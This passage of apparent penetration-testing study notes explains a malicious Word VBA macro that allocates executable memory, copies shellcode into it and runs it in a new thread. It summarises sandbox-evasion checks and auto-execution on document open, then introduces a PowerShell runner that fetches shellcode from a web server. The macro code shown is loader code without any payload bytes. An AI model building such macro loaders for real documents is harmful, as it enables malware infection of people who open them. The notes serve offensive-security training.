 Memory allocation and Shellcode execution

```vb
    ' Allocate memory space
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

- **`VirtualAlloc`**: Allocates memory with the following parameters:
  - `0`: No specific base address.
  - `UBound(buf)`: Size of the memory to allocate, based on the size of the `buf` array.
  - `&H3000`: `MEM_COMMIT | MEM_RESERVE` - Allocates physical storage in memory or the paging file.
  - `&H40`: `PAGE_EXECUTE_READWRITE` - Allows code execution, reading, and writing.

```vb
    ' Move the shellcode
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
```

- **Copy Shellcode**: Iterates through the `buf` array and copies each byte to the allocated memory using `RtlMoveMemory`.

```vb
    ' Execute the shellcode
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub
```

- **Execute Shellcode**: Creates a new thread to execute the shellcode located at `addr`.

##### Summary

1. **Function Declarations**: Declares Windows API functions for memory allocation, thread creation, and sleeping.
2. **FLS Allocation Check**: Verifies the allocation of a Fiber Local Storage (FLS) index to ensure it exists.
3. **Sleep and Time Verification**: Sleeps for 10 seconds and verifies that the sleep duration was as expected.
4. **Shellcode Initialization**: Defines the array to hold the shellcode bytes.
5. **Memory Allocation**: Allocates executable memory in the process's address space.
6. **Shellcode Copy**: Copies the shellcode to the allocated memory.
7. **Shellcode Execution**: Executes the shellcode by creating a new thread.
8. **Auto-execution**: Automatically runs the `MyMacro` subroutine when the document is opened.


# 3.5 Powershell Code runner

Improve the section's disadvantages "Executing Shellcode in Word Memory", instead of embedding shellcode directly with macros in MS Word.
- Shellcode is written in Powershell and stored + transmitted via Web server.
- Launch Powershell script (.ps) as child process.

References:
- [Powershell Shellcoding: Part 1 — MCSI Library (mosse-institute.com)](https://library.mosse-institute.com/articles/2022/10/powershell-shellcode-part-1.html)
